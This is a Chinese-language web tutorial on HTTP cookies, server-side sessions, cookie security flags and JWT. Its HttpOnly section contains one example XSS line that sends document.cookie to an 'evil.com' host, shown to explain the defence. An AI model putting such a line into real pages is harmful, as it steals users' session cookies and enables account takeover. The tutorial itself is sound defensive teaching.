

# HTTP（五）：Cookie 与 Session——服务器怎么记住你

> HTTP 是无状态的——每次请求都是新的，服务器不记得上一秒你登录过。但所有网站都能记住你。Cookie 和 Session 就是让「健忘症患者」和「失忆症患者」配合起来，假装有记忆的秘密。

## HTTP 的健忘症

先确认这个事实——HTTP 本身**真的**不记得你：

```text
你第 1 次请求: GET /profile
服务器: 你是谁？我不知道。返回登录页。

你第 2 次请求: GET /profile
服务器: 你是谁？我不知道。返回登录页。

你第 100 次请求: GET /profile
服务器: 你是谁？我还是不知道。
```

**每一封 HTTP 信都是独立的**。服务器读完就忘了。但显然淘宝记得你、微博记得你——它们靠的是 Cookie。

## 核心比喻：图书馆和借书证

```text
Cookie    = 借书证——图书馆给你的卡片，上面写了你的读者号
Session   = 借阅记录——图书馆抽屉里存着你借过的书的清单
SessionID = 读者号——卡片上唯一的信息
```

流程：



## Cookie 到底是什么

Cookie 就是服务器让浏览器存的一小段数据（最大 4KB）。浏览器自动在每个请求里带上它——你不用写任何代码：

```http
# 服务器在响应里告诉浏览器「存这个」
Set-Cookie: session_id=abc123; Path=/; HttpOnly; Secure

# 此后浏览器的每个请求自动带上
Cookie: session_id=abc123
```

Cookie 的关键属性：

| 属性 | 作用 | 建议 |
|------|------|------|
| `Path=/` | 哪些路径会带这个 Cookie | 默认当前路径 |
| `HttpOnly` | **JS 不能读这个 Cookie**——防止 XSS 窃取 | 凡是 Session ID 必须加 |
| `Secure` | 只在 HTTPS 连接发送 | 生产环境必须加 |
| `SameSite=Lax` | 跨站请求不带 Cookie——防 CSRF | 现代浏览器默认，但显式写 |
| `Max-Age=3600` | 1 小时后过期。不设就是「浏览器关闭时过期」 | 看业务需求 |

**HttpOnly 为什么要加：**

```javascript
// 没有 HttpOnly：攻击者注入的 JS 可以偷 Cookie
fetch('https://evil.com/steal?cookie=' + document.cookie)

// 有 HttpOnly：document.cookie 读不到这个 Cookie——JS 完全访问不了
```

**SameSite 防 CSRF：**

```text
你在 A 网站登录了银行。
你点了 B 网站上一个链接「免费领 iPhone」。
B 网站的页面向银行发了一个转账请求。
如果 Cookie 没有 SameSite 保护，浏览器会自动带上银行 Cookie。
→ 银行看到你的 Cookie → 认为是你本人操作 → 转账成功。

加了 SameSite=Lax：跨站请求不带 Cookie → 转账请求被拒绝。
```

## Session：服务端的抽屉

Cookie 只存一个 ID，真正的数据在服务器端叫 Session：

```python
# 伪代码——服务端 Session 的工作原理
# 登录时
session["user_id"] = "张三"
session["login_time"] = "2026-06-14"
# 服务端把 {session_id: {user_id: "张三", login_time: "2026-06-14"}} 存 Redis/数据库

# 后续请求时
session_id = request.cookies["session_id"]
user_info = redis.get(f"session:{session_id}")  # 用 ID 找回你的数据
```

Session 存在哪：

| 存储位置 | 优缺点 |
|----------|--------|
| 内存 | 最快，但重启丢失，多台服务器不共享 |
| Redis | 快，支持过期，多台服务器共享——**生产推荐** |
| 数据库 | 慢，但持久化——适合需要长期保存的 |

## Cookie 和 Session 之外：现代方案

### JWT（JSON Web Token）

和 Session 相反——**不存服务端**。把用户信息编码进 Token 里，发给客户端自己保管。服务器收到 Token 后验签名即可，不需要查数据库——无状态。

```text
JWT 结构：header.payload.signature
           │       │         │
           │       │         └─ 签名，防止篡改
           │       └─ 用户信息（所有人能看到，别放密码）
           └─ 算法和类型
```

Session 方案 vs JWT：

| | Session | JWT |
|---|---|---|
| 状态在哪 | 服务端（Redis/DB） | 客户端（Token 本身） |
| 注销 | 删 Session | Token 还在有效期内就还能用 |
| 多服务器 | 需要共享 Session 存储 | Token 自包含，单机就能验 |
| 适合场景 | 网站应用 | API/微服务/移动端 |

没有绝对的好坏——看场景。

## 小结

- **HTTP 是无状态的**——每次请求独立，不留记忆。Cookie 是补上记忆的关键
- **Cookie = 服务器给你的便签条**——浏览器替你保管，每次自动带上
- **Session = 服务端的抽屉**——存着你的登录状态和临时数据
- **三大安全属性**——HttpOnly（防 XSS）、Secure（只走 HTTPS）、SameSite（防 CSRF）
- **JWT 是 Session 的替代方案**——服务器不存状态，适合 API 和微服务

下一篇是本系列最后一篇——HTTPS：把 HTTP 的信封加上封条，让中间人无法偷看。

---

**上一篇：** [（四）状态码——服务器的一句话回复](04-status-codes.md)
**下一篇：** [（六）HTTPS——给明信片加个信封](06-https.md)
